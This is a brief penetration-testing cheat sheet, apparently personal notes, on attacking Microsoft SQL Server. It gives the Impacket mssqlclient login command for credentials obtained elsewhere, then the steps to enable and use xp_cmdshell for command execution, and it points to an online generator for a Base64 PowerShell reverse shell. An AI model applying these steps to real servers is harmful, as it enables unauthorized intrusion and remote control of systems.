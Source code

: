 # MsSQL

## Impacket mssqlclient.py
On Kali it is installed as `impacket-mssqlclient`
I used it after obtaining credentials another way
```
impacket-mssqlclient [[domain/]username[:password]@]<targetName or address> -windows-auth
```
After authenticating
```
enable_xp_cmdshell
RECONFIGURE
xp_cmdshell <command to execute>

# Simple reverse shell
# https://www.revshells.com/
# PowerShell #3 (Base64)
```
